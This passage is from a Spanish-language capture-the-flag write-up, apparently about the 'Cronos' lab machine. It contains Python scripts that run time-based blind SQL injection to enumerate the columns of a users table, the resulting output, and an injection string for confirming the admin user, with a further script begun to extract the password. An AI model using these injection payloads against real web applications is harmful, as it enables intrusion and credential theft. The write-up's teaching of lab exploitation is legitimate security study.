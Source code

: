 ```python

    if time_end - time_start > 3:
        return 1

def payload():
    p1 = log.progress("Payload")
    p1.status("Generando el payload")
    result = ""
    for j in range(0,3):
        p2 = log.progress("Column[%d]" % j)
        cont1 = 0
        for i in range(1,10):
            if cont1 != 0:
                break
            cont = 0
            for c in s:
                sqli = "' or if(substr((select column_name from information_schema.columns where table_name='users' limit %d,1),%d,1)='%c',sleep(3),1)-- -" % (j, i, c)
                p1.status("Probando con: %c" % c)
                cont += 1
                if makeRequest(sqli):
                    result += c
                    p2.status("%s" % result)
                    time.sleep(2)
                    break
                if cont == 36:
                    cont1 = 1
        p2.success("%s" % result)
        result = ""
    p1.success("Fin del payload")

if __name__ == '__main__':
    payload()
```

```bash
❯ python3 database_columns.py
[+] Payload: Fin del payload
[+] Column[0]: id
[+] Column[1]: username
[+] Column[2]: password
```

Vemos que la tabla **users** tiene las columnas **id**, **username** y **password**; por lo que nos queda listar los datos que contiene la tabla. Para ir un poco más rapidos, vamos a hacer la inyección `admin' and sleep(5)-- -` para validar si el usuario **admin** existe a en la base de datos y tenemos que el servidor nos tarda 5 segundos en responder; por lo tanto, ya tenemos el usuario, ahora solo nos falta obtener la contraseña:

```python
#!/usr/bin/python3
#codgin: utf-8

import time, requests, signal, sys
from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdefghijklmnopqrstuvwxyz'
```